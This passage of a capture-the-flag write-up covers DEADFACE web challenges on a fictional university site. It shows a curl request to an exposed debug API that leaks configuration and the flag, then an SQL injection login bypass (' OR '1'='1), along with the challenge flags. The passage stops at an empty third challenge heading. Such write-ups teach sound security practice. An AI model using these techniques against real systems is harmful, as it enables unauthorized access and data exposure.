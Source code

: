 **Description:** NVU has an API that we believe was leveraged by DEADFACE to gain configuration information that aided them in their attack on NVU’s website. The API likely exposes sensitive information. Submit the flag as `deadface{flag text}`. [http://env01.deadface.io:8080](http://env01.deadface.io:8080). 

```shell
curl http://env01.deadface.io:8080/api/debug.php?show=config  
{  
   "status": "success",  
   "message": "Debug configuration retrieved",  
   "data": {  
       "app_version": "2.1.4",  
       "php_version": "8.1.33",  
       "server": "Apache\/2.4.65 (Debian)",  
       "database": {  
           "host": "db",  
           "name": "nvu_portal",  
           "user": "nvu_user"  
       },  
       "flag": "deadface{4p1_d3bug_3xp0sur3_l34ks}",  
       "paths": {  
           "root": "\/var\/www\/html",  
           "script": "\/var\/www\/html\/api\/debug.php"  
       }  
   }  
}
```

`deadface{4p1_d3bug_3xp0sur3_l34ks}`

___

## Access Granted

**Category:** web

**Author:** @syyntax

**Description:** We need to gain authenticated access to the web app, but we want to see if we can do it the way DEADFACE did. NVU admits they haven’t fixed anything regarding their authentication process. See if you can login to the web app. Submit the flag as `deadface{flag text}`. Note: the application will present you with the flag once you login.  [http://env01.deadface.io:8080](http://env01.deadface.io:8080). 

I login with the username and password `' OR '1'='1`.

`deadface{sql_1nj3ct10n_byp4ss_4uth}`

___

## Reverse Course

**Category:** web

**Author:** @syyntax

